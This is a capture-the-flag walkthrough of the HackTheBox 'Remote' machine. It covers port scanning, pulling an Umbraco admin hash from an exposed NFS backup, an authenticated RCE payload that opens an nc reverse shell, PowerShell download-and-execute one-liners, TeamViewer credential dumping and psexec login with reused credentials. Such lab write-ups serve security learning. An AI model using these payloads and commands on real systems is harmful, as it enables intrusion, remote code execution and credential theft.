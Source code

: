 # CTF Writeup: HackTheBox - [Remote](https://www.hackthebox.eu/home/machines/profile/234)

In 2020 (thanks to COVID lockdowns), I started working on HackTheBox challenges. So far I have pwned/rooted 7 machines and it is too much fun! I finally got some time to go through my notes and decided to write this brief walkthrough to the [Remote](https://www.hackthebox.eu/home/machines/profile/234) machine.

This is not going to be a full wript-up with detailed steps, I am just going to skip over to most interesting findings. It goes without saying that there was hours of research between each stage and a lot of learning.

* Starting off with an NMAP Scan:

```
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.180 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -sC -sV -p$ports 10.10.10.180
```
We get a huge list of open ports and services:

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-31T11:01:30
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.11 seconds

```

* As usual, I went through most of the well known ports to explore the attack surface:
    - Start dirbuster on web applications
    - Start manually browsing the web content
    - Attempt manual connections to ftp and mountd services
    - Fire up msfconsole and run some recon against netbios and rpc

* I hit two interesting leads in the recon:
   - Dirbuster found bunch of content on port 80
   
      ```
      GENERATED WORDS: 4612

      ---- Scanning URL: http://10.10.10.180/ ----
      + http://10.10.10.180/about-us (CODE:200|SIZE:5441)
      + http://10.10.10.180/blog (CODE:200|SIZE:5001)
      + http://10.10.10.180/Blog (CODE:200|SIZE:5001)
      + http://10.10.10.180/contact (CODE:200|SIZE:7880)
      + http://10.10.10.180/Contact (CODE:200|SIZE:7880)
      + http://10.10.10.180/home (CODE:200|SIZE:6703)
      + http://10.10.10.180/Home (CODE:200|SIZE:6703)
      + http://10.10.10.180/install (CODE:302|SIZE:126)
      + http://10.10.10.180/intranet (CODE:200|SIZE:3323)
      + http://10.10.10.180/master (CODE:500|SIZE:3420)
      + http://10.10.10.180/people (CODE:200|SIZE:6739)
      + http://10.10.10.180/People (CODE:200|SIZE:6739)
      + http://10.10.10.180/person (CODE:200|SIZE:2741)
      + http://10.10.10.180/product (CODE:500|SIZE:3420)
      + http://10.10.10.180/products (CODE:200|SIZE:5328)
      + http://10.10.10.180/Products (CODE:200|SIZE:5328)
      + http://10.10.10.180/umbraco (CODE:200|SIZE:4040)
      ```
   - Umbraco is a CMS so I used a [Umbraco discovery wordlist](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content/CMS) and discovered the login page 
   
      ` http://10.10.10.180/umbraco#/login/false?returnPath=%252Fumbraco`
   - Second important discovery:
      - I was able to mount a volume using the mountd service
        
        `mount 10.10.10.180:/site_backups site_backups/`
      - It contained a directory called `App_data` with file `Umbraco.sdf`
      - A quick google search reveals it's a database file
      - Not sure how to open this file, I just drag and dropped it into my VSCode editor and instantly noticed a plain text string in load of garbage 
        
          `Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}`
      - BAM! There it is, the SHA1 hash for the Umbraco Administrator's password. But how do I crack it?
      - Well, I just googled how to crack SHA1 hash, in top results I see `https://crackstation.net/`, paste the hash into this website, and BAM! `baconandcheese` is the password!
      - Login to the Umbraco CMS as admin
 
* Next step is to somehow get code execution. So I re-visited exploit-db and noticed [Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/46153) exploit. The word authenticated caught my eye and I was quite sure this exploit has to work. Of course, it didn't work.
* After bit of tinkering with the payload, I modified it to obtain a reverse shell using nc back to my kali machine:

```
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "10.10.14.23:4449"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "nc.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> '
```
Got the user flag `type c:\Users\Public\user.txt`
 
* Now for finding privilege escalation to root, I spent too much time looking around the system and finding missing patches, etc but no luck. Hmm, the name of the machine is `remote` so there must be a remote access service that we can exploit. Did some service enumeration and found that TeamViewer is running. That's probably the way in.

* In Metasploit, I noticed `windows/gather/credentials/teamviewer_passwords` module. So I spent the time to now get a proper shell into my msfconsole. I ended up using following commands in my existing reverse shell:

```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.25:8000/rshell.exe');"

powershell.exe -command PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.25:8000/rshell.exe',"$env:APPDATA\rshell.exe");Start-Process ("$env:APPDATA\rshell.exe")
```

* Once I had the session in msfconsole, I run the `windows/gather/credentials/teamviewer_passwords` module and BAM!

  ```
  TeamViewer Client ID - 1769137322
  Unattended Password: !R3m0te!
  ```
  
* Now, I tried many ways to use these credentials to actually connect to the target machine using TeamViewer client but it did not work. I could not figure out what was going on. So I slept over it.
* Next day, I was working and spent most of my day in Zoom meetings with my colleagues. At one point, there were disucssions about a phishing incident and re-using passwords. After tiring day of Zoomming, as I was recollecting my thoughts I realized the risks of **re-using passwords** and how it may be the trick in this HackTheBox challenge. 
* It would be too easy I said to myself, but decided to give it a try anyway. Fired up msfconsole, 

```
use windows/smb/psexec
SMBUSer administrator
SMBPass !R3m0te!
```

and BAM! I could not believe it worked. And as easy as that, we get the root flag!
